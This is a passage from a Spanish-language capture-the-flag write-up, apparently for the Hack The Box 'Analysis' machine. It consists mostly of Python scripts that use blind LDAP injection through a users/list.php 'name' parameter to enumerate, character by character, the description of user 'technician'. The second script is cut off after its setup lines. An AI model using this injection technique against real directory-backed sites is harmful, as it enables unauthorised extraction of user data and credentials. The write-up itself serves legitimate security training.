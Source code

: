 ```python
main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits 

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    users = ['jdoe','ajohnson','cwilliams','wsmith','jangel','technician','amanson','badam','lzen']

    p2 = log.progress("Username")
    p3 = log.progress("Description")

    for user in  users:

        p2.status(f"Enumerating {user} description")

        for character in characters:
            p1.status(main_url + f"{user})(description={character}*")
            r = requests.get(main_url + f"{user})(description={character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if user in username:
                p3.status(character)
                time.sleep(10)
                break

if __name__ == '__main__':
    ldapInjection()
```

Comprobamos que hemos encontrado que el usuario "technician" dispone de descripción, una descripción que empiza por "9", un tanto peculiar para ser una descripción de un usuario LDAP.

```bash
python3 enum_users_description_ldap_injection.py
```

<figure><img src="../../../../../.gitbook/assets/1636_vmware_QcnQx8ZcT9.png" alt=""><figcaption></figcaption></figure>

Como ya sabemos que el usuario "technician" dispone de descripción. Realizaremos un ataque de fuerza bruta para enumerar el contenido de la descripción a través del script de Pyton.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys
import string

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
```